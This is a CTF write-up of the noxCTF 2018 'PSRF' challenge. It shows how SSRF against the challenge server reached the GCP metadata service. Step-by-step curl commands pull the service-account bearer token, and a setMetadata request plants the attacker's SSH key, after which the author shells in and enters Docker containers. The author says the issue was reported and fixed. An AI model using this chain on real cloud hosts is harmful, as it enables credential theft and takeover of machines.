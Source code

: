 # noxCTF-2018-PSRF-as-Pwn

## Introduction
This article was a CTF (Capture the flag) writeup, and it shows a common mistake that happend when designing a CTF challange.
Basically, it shows if a challenge can access the internal network, and the machine is on a Cloud service provider, then you might have the chance to take it over.
The following are the technique details.

## Story
When I was play [noxCTF 2018](https://ctftime.org/event/671), I saw a challenge named PSRF and it under web category, then I thought that might be SSRF, PostScript, or both.  
Then I decided to look at that.
I trying to solve it by the way I think it should be, but I always got HTTP 500 when I trying to access another server, so I decided to use another way to do it.

There are some terms that usually appear on CTF and Information Security Area
- SSRF: [Server-Side Request Forgery](https://en.wikipedia.org/wiki/Server-side_request_forgery)
It is become a common vulnerability after [this presentation by Orange](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf)
- PostScript: [Wikipedia](https://en.wikipedia.org/wiki/PostScript)
  Ghostscript is its common interpreter, and there are [multiple vulnerabilities](https://www.exploit-db.com/exploits/45243/) disclose recently. It was one of the [challenge](https://ctftime.org/task/6522) of [TokyoWesterns CTF 4th 2018](https://ctftime.org/event/651)

## Recon
The challenge provide an input box and a radio box, and it will send a HTTP GET request to 
`http://35.241.245.36/api/v1/upload?url=http://your_url&method=get`  
like this, and it will return an image name, and the result of the SSRF will store under `http://35.241.245.36/images/`  
  
The challenge has kubernetes logo on the bottom of the page like the screenshot below, and the IP is 35.241.245.36.  
![Page Screenshot](https://github.com/seadog007/noxCTF-2018-PSRF-as-Pwn/raw/master/%E8%9E%A2%E5%B9%95%E5%BF%AB%E7%85%A7%202018-09-10%20%E4%B8%8A%E5%8D%883.10.19.png)  
  
I immediately realized that is a GCP machine, so I tested the backend server by sending HTTP request to my server to see if it is also on GCP, and it is.  
![GCP determine](https://github.com/seadog007/noxCTF-2018-PSRF-as-Pwn/raw/master/%E8%9E%A2%E5%B9%95%E5%BF%AB%E7%85%A7%202018-09-10%20%E4%B8%8A%E5%8D%883.38.42.png) 

## Cloud Based Attack
I think there is not much people know about [http://metadata.google.internal](http://metadata.google.internal).  
Well, basically, it is a "feature" provided by Google Cloud Platform, you can use it to access information about the project and instances, but it also include the time limited API token of service account under the project. It is enable by the default.

## PoC
1. Sending SSRF Payload and get the result  
```
curl -s 'http://35.241.245.36/images/'`curl -s "http://35.241.245.36/api/v1/upload?url=http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token&method=get"`
```

2. And you will get something like this, one access token, and it's type, which is Bearer.
```
{"access_token":"xxxxxxxxxx","expires_in":3063,"token_type":"Bearer"}
```

3. Doing this for other information we need  
```
http://metadata.google.internal/computeMetadata/v1/project/project-id
http://metadata.google.internal/computeMetadata/v1/instance/name
http://metadata.google.internal/computeMetadata/v1/instance/zone
```

4. Now, you can use this API on your own computer `https://www.googleapis.com/compute/v1/projects/{}/zones/{}/instances/{}`  
  With header
```
Metadata-Flavor: Google
Authorization: Bearer xxxxxxxx_token_from_first_step_xxxxxxxx
```

5. You will get some thing like this.
```
.........................
 ],
 "metadata": {
  "kind": "compute#metadata",
  "fingerprint": "2bsm86CRs-0=",
  "items": [
   {
    "key": "instance-template",
    "value": "projects/720594190990/global/instanceTemplates/gke-psrf-dev-default-pool-9ae6b68d"
   },
   {
    "key": "created-by",
    "value": "projects/720594190990/zones/europe-west1-b/instanceGroupManagers/gke-psrf-dev-default-pool-9ae6b68d-grp"
   },
   {
    "key": "gci-update-strategy",
    "value": "update_disabled"
   }
.........................
```
    We only need the fingerprint

6. Set the ssh key
Send a POST request to this link with the header and data
`https://www.googleapis.com/compute/v1/projects/{}/zones/{}/instances/{}/setMetadata`  
```
Metadata-Flavor: Google
Authorization: Bearer xxxxxxxx_token_from_first_step_xxxxxxxx
Content-Type: application/json
```
```
{
  "fingerprint":"2bsm86CRs-0=",
  "items": [
    {
      "key": "sshKeys",
      "value": "username:ssh-rsa AAAAB..................4KeQzSMFH userid"
    }
  ]
}
```
7. You just replace the original ssh key to yours.
P.S. You can also do this on the whole project.  
The API detail can be found on [Managing SSH keys in Metadata](https://cloud.google.com/compute/docs/instances/adding-removing-ssh-keys)

## Solving the challenge by not its design
I ssh to the server. I know it is using kubernetes, so I run `docker ps`  
![docker ps](https://github.com/seadog007/noxCTF-2018-PSRF-as-Pwn/raw/master/%E8%9E%A2%E5%B9%95%E5%BF%AB%E7%85%A7%202018-09-10%20%E4%B8%8A%E5%8D%883.57.22.png)

Then `docker exec -it xxxxxxxxx /bin/sh`  
Then `ls`

![source code](https://github.com/seadog007/noxCTF-2018-PSRF-as-Pwn/raw/master/%E8%9E%A2%E5%B9%95%E5%BF%AB%E7%85%A7%202018-09-07%20%E4%B8%8B%E5%8D%8811.10.32.png)

Easy, just solved the challenge by looking at the source code

## Follow up
I report this security issue to the team, and just fix it pretty quick.  
![coversation_1](https://github.com/seadog007/noxCTF-2018-PSRF-as-Pwn/raw/master/%E8%9E%A2%E5%B9%95%E5%BF%AB%E7%85%A7%202018-09-07%20%E4%B8%8B%E5%8D%8811.28.22.png)  
![coversation_2](https://github.com/seadog007/noxCTF-2018-PSRF-as-Pwn/raw/master/%E8%9E%A2%E5%B9%95%E5%BF%AB%E7%85%A7%202018-09-07%20%E4%B8%8B%E5%8D%8811.43.38.png)

## Applicable environment
Not only GCP has these kind of management interface, you can also found similar thing on AWS.  
Most of CTF use docker to host challenges, but in most of the challenges that don't limit the network, so it is possible to do a privilege escalation on pwn or web challenges.

## References
[Twistlock Protection for Kubernetes Specific Attacks](https://www.twistlock.com/2018/05/30/twistlock-protection-kubernetes-specific-attacks/)
